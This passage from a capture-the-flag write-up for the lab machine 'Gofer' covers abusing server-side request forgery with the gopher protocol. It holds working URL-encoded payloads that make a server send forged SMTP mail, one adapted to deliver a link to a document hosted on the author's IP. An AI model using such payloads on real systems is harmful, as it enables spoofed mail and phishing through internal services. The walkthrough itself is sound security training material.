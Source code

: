 ```
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic Og==
```
And we got a request to our web server so this showed this function could reach our own machine.
![Connection back made](/assets/img/Gofer/Gofer_04.png)
So now we know we can send requests to basically anywhere now using this feature. Then knowing the name it made me thing of gopher and when looking deeper in on it i found out you can send mails by abusing gopher. [Hacktricks gopher](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#gopher). Hacktricks had the following example on their website.

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```

I based myself on this and changed a few things to and then URL encoded it

RCPT TO:\<victim@site.com\>  was changed to RCPT TO:<jhudson@gofer.htb>
And then i added the url to my a file in the subject. this then resulted into the following query.

```
gopher://gofer.htb:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20http://10.10.14.54/file.odt%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```
